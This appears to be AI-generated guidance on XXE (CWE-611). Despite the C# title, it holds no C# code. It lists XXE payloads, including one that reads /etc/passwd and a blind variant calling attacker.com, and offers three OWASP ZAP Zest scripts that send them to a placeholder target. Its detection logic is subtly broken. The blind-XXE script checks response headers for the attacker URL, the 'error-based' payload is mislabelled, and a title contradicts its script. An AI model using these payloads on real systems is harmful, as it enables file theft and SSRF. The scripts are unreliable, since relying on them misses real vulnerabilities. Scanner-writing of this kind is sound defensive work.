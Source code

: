 # Improper Restriction of XML External Entity Reference (CWE-611) in C#

###### Review and Understanding: Improper Restriction of XML External Entity Reference

**Improper Restriction of XML External Entity Reference** vulnerabilities occur when an application processes XML input without disabling external entities. If exploited, attackers can use these vulnerabilities to perform a variety of malicious activities such as accessing internal files, performing network scans from the perspective of the machine where the parser is located, and conducting Denial of Service (DoS) attacks.

1. **Manifestation in Web Applications**:
   These vulnerabilities typically occur in web applications where XML input is accepted and processed. This includes configurations in web services (SOAP, REST) and data exchange formats. Key frameworks often affected include ASP.NET and web applications developed using libraries like System.Xml.

2. **Common Attack Strategies**:
   - **File Disclosure Attack**: Access to the file system of the server by referencing sensitive files.
   - **Denial of Service**: Causing the server to parse an extensive or infinite resource.
   - **Server-Side Request Forgery (SSRF)**: Forcing the server to make requests to unintended locations.

### Variations and Common Injection Points

**Variations**:
1. **Standard XML External Entity (XXE)**:
   ```
   <!DOCTYPE foo [ <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
   <foo>&xxe;</foo>
   ```

2. **Error-Based XXE**:
   ```
   <!DOCTYPE foo [ <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///nonexistent"> ]>
   <foo>&xxe;</foo>
   ```

3. **Blind XXE**:
   ```
   <!DOCTYPE foo [ <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://attacker.com/malicious"> ]>
   <foo>&xxe;</foo>
   ```

**Injection Points**:
1. Parameters within the URL.
2. HTTP request bodies containing XML payloads.
3. HTTP headers.
4. SOAP requests and RESTful services accepting XML data.

### Indicators of Success

**HTTP Responses Indicating Vulnerability**:
1. **File Content in Response Body**: Indicates successful retrieval and injection of file content (e.g., `/etc/passwd`).
2. **Server Errors or Timeouts**: Could indicate attempted access to resources leading to server misbehavior or crashes.
3. **Network Activity Logs**: Access logs showing requests to the attacker's server (e.g., blind XXE payload) indicate external entity processing.

### Writing OWASP ZAP Zest Scripts

Given the Zest scripting capabilities analyzed, here are Zest scripts to detect variations of XXE vulnerabilities.

#### Script 1: Standard XXE

```json
{
  "about": "Detects standard XXE vulnerabilities",
  "zestVersion": "0.8",
  "title": "Blind XXE Detection",
  "statements": [
    {
      "url": "http://target-application/resource",
      "method": "POST",
      "data": "<?xml version='1.0'?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM 'file:///etc/passwd'>]><foo>&xxe;</foo>",
      "headers": "Content-Type: application/xml",
      "elementType": "ZestRequest"
    },
    {
      "response": {
        "statuscode": 200,
        "elementType": "ZestResponse"
      },
      "assertions": [
        {
          "rootExpression": {
            "regex": "root:x",
            "location": "BODY",
            "elementType": "ZestExpressionRegex"
          },
          "elementType": "ZestAssertion"
        }
      ],
      "elementType": "ZestResponse"
    }
  ],
  "elementType": "ZestScript"
}
```

#### Script 2: Error-based XXE

```json
{
  "about": "Detects error-based XXE vulnerabilities",
  "zestVersion": "0.8",
  "title": "Error-Based XXE Detection",
  "statements": [
    {
      "url": "http://target-application/resource",
      "method": "POST",
      "data": "<?xml version='1.0'?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM 'file:///nonexistent'>]><foo>&xxe;</foo>",
      "headers": "Content-Type: application/xml",
      "elementType": "ZestRequest"
    },
    {
      "response": {
        "statuscode": 200,
        "elementType": "ZestResponse"
      },
      "assertions": [
        {
          "rootExpression": {
            "regex": "file:///nonexistent",
            "elementType": "ZestExpressionRegex"
          },
          "elementType": "ZestAssertion"
        },
        {
          "rootExpression": {
            "regex": "Error",
            "elementType": "ZestExpressionRegex"
          },
          "elementType": "ZestAssertion"
        }
      ],
      "elementType": "ZestResponse"
    }
  ],
  "elementType": "ZestScript"
}
```

#### Script 3: Blind XXE

```json
{
  "about": "Detects Blind XXE by testing if a request is made from the server",
  "zestVersion": "0.8",
  "title": "Blind XXE Detection",
  "statements": [
    {
      "url": "http://target-application/resource",
      "method": "POST",
      "data": "<?xml version='1.0'?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM 'http://attacker.com/malicious'>]><foo>&xxe;</foo>",
      "headers": "Content-Type: application/xml",
      "elementType": "ZestRequest"
    },
    {
      "response": {
        "statuscode": 200,
        "elementType": "ZestResponse"
      },
      "assertions": [
        {
          "rootExpression": {
            "regex": "http://attacker.com/malicious",
            "location": "HEADERS",
            "elementType": "ZestExpressionRegex"
          },
          "elementType": "ZestAssertion"
        }
      ],
      "elementType": "ZestResponse"
    }
  ],
  "elementType": "ZestScript"
}
```

### Explanation of Vulnerability and Zest Scripts

**Explanation of XXE**:
Improper Restriction of XML External Entity Reference allows attackers to interfere with the processing of XML data. If external entities are not disabled, this can lead to attacks like file disclosures, SSRF, and DoS.

**How Zest Scripts Work**:
1. **Standard XXE Script**: Sends a crafted XML payload that tries to load the content of `/etc/passwd`. The presence of expected file content in the response indicates a vulnerability.
2. **Error-Based XXE Script**: Uses a similar approach but targets a non-existent file to trigger server errors. Regex checks for specific error indicators.
3. **Blind XXE Script**: Attempts to make the server request a remote resource. If a trace of this request is found in headers or logs, it indicates the processing of external entities.

These scripts ensure that various forms of XXE are thoroughly tested while minimizing false positives and negatives by carefully checking precise output and server behavior【4:0†Zest_Scripting_Documentation.md】 .
